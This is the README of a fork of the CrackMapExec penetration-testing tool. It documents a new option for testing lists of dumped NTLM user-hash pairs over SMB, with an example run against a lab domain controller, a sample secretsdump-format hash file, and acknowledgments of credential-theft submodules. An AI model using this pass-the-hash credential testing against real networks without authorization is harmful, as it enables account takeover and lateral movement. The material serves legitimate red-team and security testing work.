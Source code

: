 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)

# CrackMapExec fork to include features

## Features Added

### Test users and hash pairs from file(s) in "secretdump" format (-uH parameter)
The idea is to be able to take file(s) with multiple lines with useres and respective NTLM hashes in "secretdump" formatting, and test those using SMB for example againist another domain, or to retest these credentials obtained before to see if they are still working. The parameter indicating the domain "-d \<domain_name\>" is required.

**Example:**
```
(CrackMapExec) ~/t/CrackMapExec> cme smb 192.168.56.100 -d ramlab -uH hashes.txt
SMB         192.168.56.100  445    DC01             [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC01) (domain:ramlab) (signing:True) (SMBv1:True)
SMB         192.168.56.100  445    DC01             [-] ramlab\testuser22 4139c3eafc40242c4317313ea08d00b7 STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [-] ramlab\aaandy 4b291acc6fd3ae12f92ec3e587ab5abe STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser2 85a165727adfbd6550626d515e4e1ef3 
SMB         192.168.56.100  445    DC01             [-] ramlab\mnfffi 70e81ac21b3b2aedf0b4b601a6226d2d STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [-] ramlab\btoaan 0c391a86d139b2a17cf3260a06387558 STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser3 4139c3eafc40242c4317313ea08d00b7 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser2 85a165727adfbd6550626d515e4e1ef3 
SMB         192.168.56.100  445    DC01             [-] ramlab\btoaan 0c391a86d139b2a17cf3260a06387558 STATUS_LOGON_FAILURE 
```

hashes.txt example file:
```
testuser22:1110:aad3b435b51404eeaad3b435b51404ee:4139c3eafc40242c4317313ea08d00b7:::
bbbbb\aaandy:1116:aad3b435b51404eeaad3b435b51404ee:4b291acc6fd3ae12f92ec3e587ab5abe:::
testuser2:1110:aad3b435b51404eeaad3b435b51404ee:85a165727adfbd6550626d515e4e1ef3:::
bbbbbb\mnfffi:1141:aad3b435b51404eeaad3b435b51404ee:70e81ac21b3b2aedf0b4b601a6226d2d:::
bbbbbb\btoaan:1148:aad3b435b51404eeaad3b435b51404ee:0c391a86d139b2a17cf3260a06387558:::
aaaaaa\testuser3:1111:aad3b435b51404eeaad3b435b51404ee:4139c3eafc40242c4317313ea08d00b7:::
testuser2:1110:aad3b435b51404eeaad3b435b51404ee:85a165727adfbd6550626d515e4e1ef3:::
bbbbbb\btoaan:1148:aad3b435b51404eeaad3b435b51404ee:0c391a86d139b2a17cf3260a06387558:::   
```

# Acknowledgments
**(These are the people who did the hard stuff)**

Original repository:
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) :+1:

This project was originally inspired by:
- [smbmap](https://github.com/ShawnDEvans/smbmap)
- [CredCrack](https://github.com/gojhonny/CredCrack)
- [smbexec](https://github.com/pentestgeek/smbexec)

Unintentional contributors:

- The [Empire](https://github.com/PowerShellEmpire/Empire) project
- @T-S-A's [smbspider](https://github.com/T-S-A/smbspider) script
- @ConsciousHacker's partial Python port of Invoke-obfuscation from the [GreatSCT](https://github.com/GreatSCT/GreatSCT) project

This repository contains the following repositories as submodules:
- [Impacket](https://github.com/CoreSecurity/impacket)
- [Pywinrm](https://github.com/diyan/pywinrm)
- [Pywerview](https://github.com/the-useless-one/pywerview)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- [Invoke-Vnc](https://github.com/artkond/Invoke-Vnc)
- [Mimikittenz](https://github.com/putterpanda/mimikittenz)
- [NetRipper](https://github.com/NytroRST/NetRipper)
- [RandomPS-Scripts](https://github.com/xorrior/RandomPS-Scripts)
- [SessionGopher](https://github.com/fireeye/SessionGopher)
- [Mimipenguin](https://github.com/huntergregal/mimipenguin)

# Documentation, Tutorials, Examples
See the project's [wiki](https://github.com/byt3bl33d3r/CrackMapExec/wiki) for documentation and usage examples

# Installation
Please see the installation wiki page [here](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Installation).
